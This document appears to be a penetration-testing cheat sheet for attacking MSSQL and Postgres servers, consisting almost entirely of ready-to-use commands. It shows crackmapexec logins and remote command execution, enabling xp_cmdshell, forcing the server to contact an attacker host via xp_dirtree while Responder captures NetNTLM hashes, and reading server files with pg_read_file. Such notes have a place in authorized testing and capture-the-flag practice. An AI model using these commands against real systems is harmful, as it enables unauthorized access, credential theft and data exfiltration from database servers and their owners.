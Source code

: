 **MSSQL:**
---
```sh
sqsh -S $TARGET_IP:$PORT -U $DOMAIN\\$USER -P $PASS
```

```shell
crackmapexec mssql $TARGET_IP -u $USER -p $PASSWORD
```

```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -L
```

Try to execute command on server:
```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -x 'ping $ATTACKER'
```
and on attacker box:
```shell
sudo tcpdump -i tun0 icmp -n
```

Try to start mssql_priv:

```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -M mssql_priv
```

One client is mssqlclient.py:

```shell
mssqlclient.py $USER:$PASSWORD@$DOMAIN
```

Or use impacket to open console:

```shell
impacket-mssqlclient $TARGET_DOMAIN/$TARGET_USER:$TARGET_PASSWORD@$TARGET_NAME
```

```bash
impacket-mssqlclient $USER:$PASS@$TARGET_IP -windows-auth
```

Try:

```mssql
enable_xp_cmdshell
```

or:
```mssql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';
```

in MSSQL server try, start responder on attacker box:
```sql
xp_dirtree "\\$ATTACKER_IP\fake\share";
```

List files:
---

```sql
xp_dirtree "c:\inetpub\";
xp_dirtree "c:\inetpub\",2,2;
```

**List databases:**
---
```sql
SELECT name, database_id, create_date FROM sys.databases;
```

Show current DB name:
```sql
SELECT db_name();
```

```sql
SELECT STRING_AGG(name, ', ') FROM master..sysdatabases;
```

**List tables in selected DB:**
---
#mssql 

```sql
SELECT * FROM SYSOBJECTS WHERE xtype = 'U';
```

```sql
SELECT name FROM $DB_NAME..sysobjects WHERE xtype = 'U' order by name offset 1 rows fetch next 1 rows only)
```
List columns:
---
```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = '$COLUMN') order by name offset 1 rows fetch next 1 rows only
```

and offset for each entry
List column:
---
```sql
SELECT top 1 $COLUMN from $TABLE ORDER BY $COLUMN;
```
```sql
SELECT top 1 $COLUMN from $TABLE ORDER BY $COLUMN offset 1 rows fetch next 1 rows only;
```
Leak NetNTLM hashes
---
#hash #ntlm #netntlm #responder
Start responder or another hash grabber to get user and hash:

```bash
sudo responder.py -I tun0
```

and trick the MSSQL server to connect to the "share":

```sql
exec master.dbo.xp_dirtree '//$LOCAL_IP/non/existing'
```

POSTGRES
---

```bash
psql -h $TARGET_IP -U $USER -d postgres
```

```postgresql
\l
\c $DATABASE
# display tables
\dt
```

```sql
select pg_ls_dir('/var/www');
select pg_read_file('/var/www/flag.txt' , 0 , 1000000);
```